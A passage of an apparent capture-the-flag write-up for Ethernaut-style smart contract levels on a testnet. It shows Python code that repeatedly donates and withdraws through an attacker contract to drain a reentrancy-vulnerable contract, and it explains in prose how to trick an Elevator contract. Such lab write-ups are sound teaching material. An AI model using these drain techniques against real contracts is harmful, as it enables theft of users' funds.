 ```python
while reentrancy.balance() > 0:
    reentrancyattack.donate({'value': 1e15} | _from)
    reentrancyattack.withdraw(1e15, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x8382be6a150e53084ef3dddd1eddb2947f67f06ef78462762bee0da5e4706c92

Block explorer: https://rinkeby.etherscan.io/tx/0xfd45877eea70901376b99b2bee25d924696adbe6cf3fa88aae2d9a58f579884e

3. Recover the funds from the attacker contract and send them to the deployer (owner, me)
   
```python
reentrancyattack.withdrawAttackerContractFunds(_from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xbe8c59fba36d2911e1a82c38ad9b6b1790688af717a195cdc7de4270eeb71526


4. Check if the contract has indeed been drained.

```python
balance_assertion = reentrancy.balance() == 0
print(f"The contract's balance is {reentrancy.balance()}, The contract is {'drained' if balance_assertion else 'not drained'}")
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0xe704da1a83ed2a3ecf4b72876222c46dc65e9fe72b2ab5d4e1be2262698a73b8

***

## Elevator

### Objectives

This elevator won't let you reach the top of your building. Right?

### Solution

The returning value of `isLastFloor()` must be False for `floor` to change and for `top` to become true. Two ways to do this come to mind:

1. We make our top floor something that isn't 0 (the starting value of `floor`) and we check if `floor` is the number value of the top floor. Then we define the function `isLastFloor()` to return a comparison between the current `floor` and the top floor value.

2. We make a function that sends the elevator to its current floor (0), but we run this function twice, the first time, we make sure that `isLastFloor()` returns false, and then after this only true. This would effectively mean that our top floor is the 0th floor. But during that second run, `top` becomes true.

